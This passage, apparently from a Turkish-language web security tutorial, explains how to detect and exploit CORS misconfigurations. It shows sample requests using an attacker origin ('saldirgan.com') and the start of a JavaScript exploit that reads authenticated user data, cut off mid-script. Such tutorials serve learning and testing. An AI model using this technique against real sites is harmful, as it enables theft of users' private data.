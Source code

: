 ```
Test ederken,orijinal domain adı veya **“null”** gibi farklı “Origin” değerleri denenmelidir.Bu durumu otomatikleştirmek ufak bir script  yazılabilir.

Örnek;
```
GET /api/user-data  HTTP/1.1 
Host: 0xkursad.com
Origin: https://0xkursad.com
Connection: close
```
Daha sonra sunucudan gelen yanıta bakalım ve **“Access-Control-Allow-*”**  başlıklarını içerip içermediğini kontrol edin..
```
HTTP/1.1 200 OK 
Access-control-allow-credentials: true 
Access-control-allow-origin: https://0xkursad.com

```
Yukarıdaki  yanıt CORS’nin etkin olduğunu gösterir. Zafiyetin olup olmadığını bilmek için test etmek gerekmektedir.
<br>

<h3 style="color:yellow;">B.Analiz Etme Aşaması</h3>
CORS’nin etkinleştirdiği işleyicileri belirliyoruz daha sonra uygulamayı doğru şekilde exploit etmek için uygulamayı analiz ediyoruz. Hangi tür kontrollerin uygulandığını ve uygulama tarafında hangi başlıkların döndüğünü doğrulamak önemlidir. Bu nedenle biz, saldırgan tarafından  kontrol edilen bir domaine izin verilip verilmediğini görmek için  önce ki requesti farklı bir “Origin ” başlığıyla tekrar göndermeyi deneriz…

örnek;
```
GET /api/user-data HTTP/1.1 
Host: 0xkursad.com 
Origin: https://saldirgan.com 
Connection: close

```
Ve daha sonra  sunucu yanıtını inceleyelim ve “Access-Control-Allow-*” başlıklarını içerip içermediğini kontrol edelim;

```
HTTP/1.1 200 OK …
Access-control-allow-credentials: true 
Access-control-allow-origin: https://saldirgan.com

```
Yanıtta döndürülen headerlar “saldirgan.com” öğesinin kimliği doğrulanmış içeriğe tam erişime sahip olduğunu bize gösterir.
<br>

<h3 style="color:yellow;">C.Exploit Etme Aşaması</h3>
Saldırgan kişi şöyle düşünür hedef CORS yapılandırılmasının “Access-Control-Allow-Credentials” headerının “true” olarak yapılandırılıp yapılandırılmadığıdır. Hal böyle olunca saldırgan belirlediği yanlış yapılandırmayı kullanabilir ve sistemin özel,hassas verilerini çalabilir.

<img src="https://1.bp.blogspot.com/-gLosGhD4jKo/Xyv71r2ddDI/AAAAAAAAAdc/j6SHw5nf2hgJD2yR-ahgT_dpK4JTBcqWQCNcBGAsYHQ/s1048/cors102.jpg">
<br>

<h4 style="color:yellow;">- Kullanıcı Verilerini Çekmek</h4>
“Access-Control-Allow-Credentials”  başlığının true olarak ayarlandığı CORS  yapılandırılmasından yararlanmak için temel teknik, ağağıdakine benzer  bi CORS isteği gönderen JavaScript oluşturmaktır.
```
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open(“get”,”https://zafiyetli.domain/api/user-data”,true);